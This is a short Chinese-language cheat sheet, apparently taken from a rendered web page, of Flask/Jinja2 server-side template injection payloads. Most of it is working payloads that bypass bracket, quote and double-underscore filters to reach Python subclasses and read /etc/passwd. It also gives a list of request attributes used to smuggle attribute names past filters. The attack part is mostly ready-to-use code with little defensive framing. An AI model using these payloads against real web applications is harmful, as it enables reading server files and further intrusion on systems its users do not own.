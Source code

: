 欢迎补充


### 绕过中括号


```plain
''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/etc/passwd').read()
Plain Text
```



```plain
使用gititem绕过。如原poc {{"".class.bases[0]}}绕过后{{"".class.bases.getitem(0)}}
Plain Text
```






pop() 函数用于移除列表中的一个元素（默认最后一个元素），并且返回该元素的值


### 过滤引号


```plain
{{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40)(request.args.path).read()}}&path=/etc/passwd
Plain Text
```



### 过滤双下划线


```plain
{{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() }}&class=__class__&mro=__mro__&subclasses=__subclasses__
Plain Text
```



这里用到的是request:(稍微解释一下)


`{{''[request.args.a][request.args.b][2][request.args.c]()}}?a=__class__&b=__mro__&c=__subclasses__}}`


```plain
如下为常用的request姿势request.args.x1      get传参request.values.x1    post传参request.cookiesrequest.form.x1     post传参    (Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)request.data          post传参    (Content-Type:a/b)request.json      post传json  (Content-Type:application/json)
Plain Text
```



在Flask的官方文档中是这样介绍request的：对于 Web 应用，与客户端发送给服务器的数据交互至关重要。在 Flask 中由全局的 request 对象来提供这些信息。
